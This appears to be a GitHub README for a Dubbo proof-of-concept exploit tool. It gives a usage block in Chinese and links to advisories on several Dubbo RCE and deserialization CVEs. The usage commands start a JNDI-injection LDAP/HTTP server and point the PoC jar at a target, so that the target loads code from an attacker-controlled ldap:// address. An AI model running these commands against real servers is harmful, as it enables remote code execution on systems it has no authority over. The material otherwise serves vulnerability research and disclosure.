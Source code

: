 
## 用法
```bash
启动ldap服务和HTTP服务：

java -jar C:\Users\Administrator\Downloads\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc

java -jar Dubbo-PoC-Spring-2.7.7.jar ip port ldap://ip:port/test
```


## CVEs

- [Dubbo多个远程代码执行漏洞 by rebeyond](https://mp.weixin.qq.com/s/B1bltJcdrH-B-iN2p0csqA)
- [【漏洞通告】Apache Dubbo多个高危漏洞（CVE-2021-25641等）](https://mp.weixin.qq.com/s/vUdsgOSymEzWeAXkfK3Abw)
- https://wx.zsxq.com/dweb2/index/topic_detail/818554241114512
- [Dubbo Consumer脚本注入RCE - CVE-2021-30181](https://threedr3am.github.io/2021/05/30/Dubbo%20Consumer%E8%84%9A%E6%9C%AC%E6%B3%A8%E5%85%A5RCE%20-%20CVE-2021-30181/)
- [CVE-2021-30179 - Dubbo Pre-auth RCE via Java deserialization in the Generic filter](https://threedr3am.github.io/2021/06/01/CVE-2021-30179%20-%20Dubbo%20Pre-auth%20RCE%20via%20Java%20deserialization%20in%20the%20Generic%20filter/)
- https://securitylab.github.com/research/apache-dubbo/
- https://securitylab.github.com/advisories/GHSL-2021-097-apache-dubbo/
- [浅析Dubbo Kryo/FST反序列化漏洞（CVE-2021-25641）](https://www.mi1k7ea.com/2021/06/30/%E6%B5%85%E6%9E%90Dubbo-KryoFST%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-25641%EF%BC%89/)
- https://checkmarx.com/blog/technical-blog/the-0xdabb-of-doom-cve-2021-25641/
- [dubbo中使用hessian_http/dubbo协议注入内存马](https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/dubbo%E6%B3%A8%E5%85%A5%E5%86%85%E5%AD%98%E9%A9%AC/)
- https://github.com/lz2y/DubboPOC/blob/main/src/main/java/top/lz2y/vul/CVE202130179.java
- https://securitylab.github.com/advisories/GHSL-2021-094-096-apache-dubbo/
